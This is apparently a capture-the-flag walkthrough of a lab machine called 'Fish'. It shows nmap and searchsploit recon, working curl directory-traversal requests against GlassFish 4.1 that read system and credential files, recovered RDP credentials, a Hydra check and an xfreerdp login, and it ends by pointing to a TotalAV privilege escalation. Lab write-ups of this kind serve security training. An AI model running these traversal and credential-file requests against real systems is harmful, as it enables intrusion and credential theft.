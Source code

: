 # Fish

## Nmap

```
nmap 192.168.213.168 -sS -sV -p- -Pn

PORT     STATE SERVICE              VERSION
3389/tcp open  ms-wbt-server?
3700/tcp open  giop                 CORBA naming service
4848/tcp open  http                 Sun GlassFish Open Source Edition  4.1
6060/tcp open  x11?
7676/tcp open  java-message-service Java Message Service 301
7680/tcp open  pando-pub?
8080/tcp open  http                 Sun GlassFish Open Source Edition  4.1
8181/tcp open  ssl/http             Sun GlassFish Open Source Edition  4.1
8686/tcp open  sun-as-jmxrmi?
```

Starting out we begin using `searchsploit` to discover know vulnerabilities against the services.

```bash
searchsploit -w "GlassFish 4.1"
```

![](<../../.gitbook/assets/image (246).png>)

Looks like the of GlassFish running is vulnerable to Directory Traversal. The following exploit examples can be used to read known system files.

**ExploitDB:** [https://www.exploit-db.com/exploits/39441](https://www.exploit-db.com/exploits/39441)

Using one of the examples in the link with the correct IP and port we are able to build a `curl` GET request to confirm the directory traversal.

```bash
curl http://<IP>:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini 
```

![](<../../.gitbook/assets/image (2052) (1) (1) (1) (1) (2) (1).png>)

After this I looked up configuration files for GlassFish to see if we can read any sensitive credential files. This StackOverflow [link](https://stackoverflow.com/questions/41078683/how-do-i-reset-the-forgotten-password-of-glassfish-server-4) proved to be informative and I was able to read the admin hash for GlassFish with a little bit of guesswork.

```bash
curl http://<IP>:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af../glassfish4/glassfish/domains/domain1/config/admin-keyfileadmin
```

![](<../../.gitbook/assets/image (156) (2).png>)

Unfortunately however, I was unable to crack the hash and proceed with anything meaningful for now.

Looking through the rest of the open ports manually we come across the page "SynaMan" which we observe is running version 4.0.

![](<../../.gitbook/assets/image (535).png>)

Again, with `searchsploit` we are able to see if the version running is vulnerable.

```bash
searchsploit -w "SynaMan 4.0"
```

![](<../../.gitbook/assets/image (224).png>)

The `SMTP` disclosure is interesting to us:

**ExploitDB:** [https://www.exploit-db.com/exploits/45387](https://www.exploit-db.com/exploits/45387)

![](<../../.gitbook/assets/image (111).png>)

We see from the description that as we already have a directory traversal exploit on the system we can likely read the desired AppConfig.xml

```bash
curl http://<IP>:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af../SynaMan/config/AppConfig.xml   
```

![](<../../.gitbook/assets/image (102).png>)

From the output we are able to tie together the following credentials:

```
arthur:KingOfAtlantis
```

Being as `RDP` is open a quick check with `Hydra` confirms the credentials are valid.

```bash
hydra -l "arthur" -p "KingOfAtlantis" rdp://<IP> 
```

![](<../../.gitbook/assets/image (36) (1).png>)

We can then connect via `RDP` to the target system.

```bash
xfreerdp /u:"arthur" /p:"KingOfAtlantis" +clipboard /v:<IP>
```

![](<../../.gitbook/assets/image (2050) (1) (1) (1) (1) (2).png>)

We see on the desktop a shortcut for the AV application `TotalAV`. Checking `appwiz.cpl` we see that the installed version is _4.14.31_.

![](<../../.gitbook/assets/image (139).png>)

`searchsploit` again shows a vulnerability with the installed version.

```bash
searchsploit -w "TotalAV 4.14.31"
```

![](<../../.gitbook/assets/image (2034).png>)

This version of `TotalAV` appears to be vulnerable to Privilege Escalation.

**ExploitDB:** [https://www.exploit-db.com/exploits/47897](https://www.exploit-db.com/exploits/47897)

**Youtube:** [https://www.youtube.com/watch?v=88qeaLq98Gc](https://www.youtube.com/watch?v=88qeaLq98Gc)
